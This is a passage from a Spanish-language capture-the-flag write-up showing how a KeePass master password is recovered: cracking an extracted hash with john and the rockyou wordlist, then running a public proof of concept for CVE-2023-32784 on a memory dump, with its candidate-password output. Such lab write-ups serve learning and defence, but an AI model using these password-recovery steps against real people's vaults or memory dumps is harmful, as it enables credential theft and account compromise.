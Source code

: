 Con el `hash` extraído lo único que tendríamos que hacer es crackearlo con la herramienta de la siguiente forma

```bash
john --w=/usr/share/wordlists/rockyou.txt hash
```

- Como he mencionado anteriormente, no iba a funcionar de esa manera pero ahí la tenéis como manera de aprendizaje, como podemos ver, no solo tenemos el fichero `.kdbx` sino que también hay un `.dmp` que viene siendo un `dumpeo` de la memoria, si investigamos un poco podemos ver que `Keepass` tenia una vulnerabilidad que a través de un `dumpeo` de la memoria podíamos obtener el valor de la clave maestra es texto claro, por lo que indagando un poco he encontrado la siguiente vulnerabilidad `CVE-2023-32784`. Hay mucho exploits para esta vulnerabilidad desarrollados en infinidad de lenguajes pero yo he elegido el siguiente [exploit](https://github.com/dawnl3ss/CVE-2023-32784).

```bash
python3 poc.py KeePassDumpFull.dmp
2024-10-29 13:40:47,756 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Nos devuelve las posibles credenciales que pueden ser, si buscamos eso en google nos sale lo siguiente

`Rødgrød med Fløde`

- Probamos la password tanto en minúsculas como mayúsculas para ver si puede funcionar
